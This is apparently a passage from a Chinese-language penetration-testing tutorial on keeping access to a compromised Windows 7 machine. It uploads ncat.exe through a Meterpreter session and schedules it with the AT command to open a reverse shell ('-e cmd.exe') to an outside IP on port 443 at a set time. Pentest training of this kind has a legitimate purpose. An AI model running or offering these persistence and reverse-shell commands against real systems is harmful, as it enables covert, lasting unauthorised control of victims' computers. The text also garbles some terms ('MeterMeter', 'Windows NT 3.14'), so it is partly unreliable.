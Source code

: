 一旦最初的攻击破坏了系统，我们希望系统定期呼叫总部。这样的漏洞可以设置为保持恒定连接，每次连接丢失时都会重置连接。也可以将其设置为按指定的间隔重新连接。我们喜欢将这些设置为在某个时间利用漏洞呼叫总部，如果攻击机器上没有可连接的端口，那么在该时间再次到来之前，利用漏洞将保持沉默。完全持久的连接可以引起网络安全的注意。

我们现在已连接到受害者机器，并将 Ncat 的模糊副本上载到受害者。从会话中我们可以看出，这是一次内部攻击。`ncat.exe`文件位于 Kali 上的`/usr/share/ncat-w32/`目录中。连接后，在 MeterMeter 中运行以下命令：

```
upload /usr/share/ncat-w32/ncat.exe C:/windows/ncat.exe

```

![Maintaining access with Ncat](img/image00929.jpeg)

这将 Ncat 可执行文件传输到受害者系统。注意，我们对目录斜杠使用的是`/`而不是`\`。因为您在 Linux 上，所以必须使用正斜杠。如果您使用`\`并运行该命令，您将发现目录名将一起运行，并且文件将无法正确上载。

转到 Windows 7 受害者，我们可以看到`Windows`目录中的文件：

![Maintaining access with Ncat](img/image00930.jpeg)

Windows NT 3.14 之后的 Windows 有一个命令行工具来运行计划任务。此工具称为`AT`命令。此命令与 Linux 或 UNIX 上可用的`cron`命令非常相似，与`cron`命令一样，您需要管理员级别的访问权限才能运行`AT`。您还可以运行`schtasks`命令，无论您的用户权限如何，该命令都将运行。您可以设置运行任何命令行工具或脚本的时间、日期和次数。因此，使用与机器的流量计连接将外壳插入系统：

```
shell

```

您现在处于受害者系统中，应键入以下内容：

```
AT 5:00PM ncat.exe -nv 128.199.190.69 443 –ssl -e cmd.exe

```

![Maintaining access with Ncat](img/image00931.jpeg)
